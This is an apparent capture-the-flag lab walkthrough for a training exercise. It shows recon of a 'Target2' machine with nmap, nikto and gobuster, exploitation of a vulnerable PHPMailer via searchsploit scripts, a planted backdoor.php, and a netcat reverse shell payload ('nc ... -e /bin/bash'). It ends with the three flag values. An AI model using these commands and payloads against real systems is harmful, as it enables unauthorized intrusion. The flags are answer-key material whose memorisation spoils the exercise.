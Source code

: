 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This walkthrough detail one method to exploit the vulnerable machine. There are several alternatives to explore.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Resources/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Resources/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Resources/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Resources/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Resources/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Resources/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Resources/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Resources/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Resources/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Resources/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Resources/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Resources/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Resources/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/files/exploit.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Resources/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Resources/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Resources/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Resources/Images/4/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Resources/Images/4/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Resources/Images/4/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![20](/Resources/Images/4/20.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}